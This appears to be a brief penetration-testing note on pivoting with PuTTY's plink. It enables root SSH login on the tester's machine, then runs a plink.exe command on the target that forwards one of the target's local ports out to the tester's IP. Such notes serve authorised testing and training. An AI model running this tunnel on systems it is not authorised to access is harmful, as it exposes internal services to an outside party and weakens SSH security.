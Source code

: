 
**[Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)**

We are using plink to forward a port to our host over an SSH connection. When this completes we will be ssh'd into our machine with a local (127.0.0.1) connection to whatever port we forwarded. 

SSH on your machine with "permitrootlogin yes".

    systemctl restart ssh

On target:

    plink.exe -l <your user> -pw <your pass> <local port you want access to>:127.0.0.1:<port to send to your PC> <your IP>















